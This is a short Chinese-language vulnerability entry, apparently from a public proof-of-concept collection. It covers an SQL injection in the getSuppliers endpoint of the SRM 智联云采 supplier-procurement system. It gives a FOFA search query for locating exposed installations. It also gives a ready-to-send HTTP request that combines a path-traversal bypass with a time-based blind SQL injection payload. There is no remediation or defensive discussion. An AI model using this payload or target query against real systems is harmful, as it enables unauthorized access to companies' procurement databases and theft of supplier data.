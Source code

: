 # SRM智联云采系统getSuppliers存在SQL注入漏洞
智互联(深圳)科技有限公司SRM智联云采系统针对企业供应链管理难题，及智能化转型升级需求，智联云采依托人工智能、物联网、大数据、云等技术，通过软硬件系统化方案，帮助企业实现供应商关系管理和采购线上化、移动化、智能化，提升采购和协同效率，进而规避供需风险，强化供应链整合能力，构建企业利益共同体。智互联(深圳)科技有限公司SRM智联云采系统getSuppliers存在SQL注入漏洞。

## fofa
```javascript
title=="SRM 2.0"
```

## poc
```java
POST /adpweb/static/%2e%2e;/a/srm/inquiry/getSuppliers?code=%27+AND+%28SELECT+1312+FROM+%28SELECT%28SLEEP%283%29%29%29HckV%29--+HyuV HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![image-20241122151303974](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221513048.png)
